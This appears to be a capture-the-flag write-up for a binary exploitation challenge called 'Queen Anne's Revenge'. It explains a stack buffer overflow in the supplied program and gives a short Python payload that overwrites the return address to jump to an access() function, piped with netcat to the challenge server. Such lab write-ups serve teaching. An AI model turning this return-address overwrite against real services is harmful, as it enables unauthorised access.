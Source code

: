 # Queen Anne's Revenge
> Aye, lad, can ye outsmart the wicked Blackbeard? if ye can, ye'll be the richest lad in all of Nassau!!!!!

Author: adieos


## About the Challenge
This challenge gives a main.c and chall elf

## How to Solve?

First, let's read main.c to understand what this code actually does to get the flag. Here, I see that to get the flag, the user must log in as blackbeard and set the PIN to 1234. Meanwhile, the default PIN is set to 123 and the user is not prompted for a PIN. So, I believe this is a buffer overflow challenge.

Then, I disassembled the elf challenge to understand what it actually does. From the C source and disassembly:
```
access_addr = 0x080491e6 # access() function address
piratename: 15 bytes
pin: 4 bytes
saved ebp: 4 bytes
return addr: 4 bytes <- this is what we overwrite
```
So, to reach the return address, the number of bytes to be written is: 15 (piratename) + 4 (pin) + 4 (saved ebp) = 23 bytes to overwrite up to before the return addr, then overwrite the return addr (4 bytes) starting at offset 24. In our exploit we use 27 bytes of padding because it reaches the correct return address location in this environment. untuk melakukannya, saya membuat file exploit seperti ini

```
import struct
access_addr = 0x080491e6
payload = b'A' * 27
payload += struct.pack('<I', access_addr)
payload += b'BBBB'
payload += struct.pack('<I', 1234)
payload += b'\n123\n'
import sys
sys.stdout.buffer.write(payload)

```
then we just run it with the command
```
python3 exploit.py | nc intersec.hcs-team.com 10131
```

<img width="786" height="533" alt="Screenshot from 2025-09-17 20-13-58" src="https://github.com/user-attachments/assets/67084251-59e1-45dd-a2a7-8ad9de7d21c0" />


Boom. we got the flag



## Flag
```
HCS{y4rrrr_ill_se3_y3_in_d4vy_j0n35_l0ck3r_4ye_7ec89d5f-2584-45c0-929b-37b30be33c40}
```
